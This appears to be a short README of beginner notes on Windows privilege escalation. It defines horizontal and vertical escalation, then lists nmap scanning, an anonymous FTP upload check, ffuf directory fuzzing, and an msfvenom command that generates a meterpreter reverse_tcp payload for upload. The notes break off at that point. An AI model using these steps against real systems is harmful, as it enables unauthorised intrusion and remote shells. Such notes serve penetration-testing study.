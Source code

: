 # winescalation
Windows Privilege Escalation

Intro:
Gaining unauthorized access to your windows and gaining more control than what is typically allowed. It is possible due to weakness or vulnerability in the system.

Example - Login to website with someone's account

2 types:

1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.

2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 

->It basically requires some type of privilages in your hand.

->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.

nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000

If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp 
